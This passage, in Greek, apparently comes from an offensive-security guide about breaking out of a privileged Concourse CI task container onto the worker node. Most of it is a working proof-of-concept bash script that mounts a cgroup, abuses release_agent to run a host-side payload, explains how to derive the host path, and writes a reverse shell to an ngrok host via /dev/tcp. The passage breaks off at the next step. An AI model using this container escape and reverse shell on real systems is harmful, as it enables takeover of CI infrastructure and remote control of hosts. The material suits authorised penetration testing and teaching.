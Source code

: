 ```bash
fly -t tutorial execute --privileged --config task_config.yml
```
#### Απόδραση στον κόμβο από προνομιούχο task

Στις προηγούμενες ενότητες είδαμε πώς να **εκτελέσουμε ένα προνομιούχο task με concourse**. Αυτό δεν θα δώσει στο container ακριβώς την ίδια πρόσβαση όπως η σημαία privileged σε ένα docker container. Για παράδειγμα, δεν θα δείτε τη συσκευή του συστήματος αρχείων του κόμβου στο /dev, οπότε η απόδραση μπορεί να είναι πιο "σύνθετη".

Στο παρακάτω PoC θα χρησιμοποιήσουμε το release\_agent για να αποδράσουμε με κάποιες μικρές τροποποιήσεις:
```bash
# Mounts the RDMA cgroup controller and create a child cgroup
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the memory cgroup controller, try change memory to rdma to fix it
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release


# CHANGE ME
# The host path will look like the following, but you need to change it:
host_path="/mnt/vda1/hostpath-provisioner/default/concourse-work-dir-concourse-release-worker-0/overlays/ae7df0ca-0b38-4c45-73e2-a9388dcb2028/rootfs"

## The initial path "/mnt/vda1" is probably the same, but you can check it using the mount command:
#/dev/vda1 on /scratch type ext4 (rw,relatime)
#/dev/vda1 on /tmp/build/e55deab7 type ext4 (rw,relatime)
#/dev/vda1 on /etc/hosts type ext4 (rw,relatime)
#/dev/vda1 on /etc/resolv.conf type ext4 (rw,relatime)

## Then next part I think is constant "hostpath-provisioner/default/"

## For the next part "concourse-work-dir-concourse-release-worker-0" you need to know how it's constructed
# "concourse-work-dir" is constant
# "concourse-release" is the consourse prefix of the current concourse env (you need to find it from the API)
# "worker-0" is the name of the worker the container is running in (will be usually that one or incrementing the number)

## The final part "overlays/bbedb419-c4b2-40c9-67db-41977298d4b3/rootfs" is kind of constant
# running `mount | grep "on / " | grep -Eo "workdir=([^,]+)"` you will see something like:
# workdir=/concourse-work-dir/overlays/work/ae7df0ca-0b38-4c45-73e2-a9388dcb2028
# the UID is the part we are looking for

# Then the host_path is:
#host_path="/mnt/<device>/hostpath-provisioner/default/concourse-work-dir-<concourse_prefix>-worker-<num>/overlays/<UID>/rootfs"

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent


#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
```
